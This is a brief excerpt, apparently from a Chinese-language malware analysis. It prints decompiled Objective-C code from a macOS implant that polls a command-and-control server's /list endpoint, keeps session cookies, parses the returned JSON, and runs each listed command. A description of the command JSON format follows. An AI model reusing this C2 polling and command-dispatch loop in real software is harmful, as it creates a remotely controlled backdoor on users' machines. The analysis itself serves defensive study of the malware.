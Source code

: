 ```
-[Service remotelist] `{`
  ws_nl = [NSCharacterSet whitespaceAndNewlineCharacterSet];
  url_str = [remote_url_long stringByTrimmingCharacterInSet:ws_nl];

  NSMutableURLRequestRef url_req = [NSMutableURLRequest alloc];

  full_url_str = [url_str stringByAppendingString:@"/list"];
  NSURLRef url = [NSURL URLWithString:full_url_str];

  [url_req initWithURL:url];

  if (self-&gt;_cookies) `{`
    [url_req addValue:self-&gt;_cookies forHeader:@"Cookie"];
  `}`

  NSURLResponse* resp;
  NSData* data = [NSURLConnection sendSynchronousRequest:url_req
     returningResponse:&amp;resp
     error:0];

  cookie = [self getCookieFromHttpresponse:resp];
  if ([cookie length] != 0) `{`
    self-&gt;_cookie = cookie;
  `}`

  NSLog(@"Json data %@", [NSString initWithData:data
                                   encoding:NSUTF8StringEncoding]);

  err = 0;
  json = [NSJSONSerialization JSONObjectWithData:data
                              options:0
                              error:&amp;err];

  data_obj = [json objectForKey:@"data"];

  NSLog(@"data Result: %@", data_obj);

  cmds_obj = [data_obj objectForKey:@"cmds"];

  NSLog(@"cmds: %@", cmds_obj);

  for (cmd in cmds_obj) `{`
    [self doCommand:cmd];
  `}`
`}`
```

此方法向命令和控制服务器上的/ list 端点发出HTTP请求，并在响应中接收JSON 编码对象。它使用系统JSON 库（[NSJSONSerialization](https://developer.apple.com/documentation/foundation/nsjsonserialization)）解析该对象，JSON 采用以下形式：

```
`{` "data" : 
  `{` "cmds" :
    [
      `{`"cmd"  : &lt;COMMAND_STRING&gt;
       "data" : &lt;OPTIONAL_DATA_STRING&gt;
      `}`, ...
    ]
  `}`
`}`
```
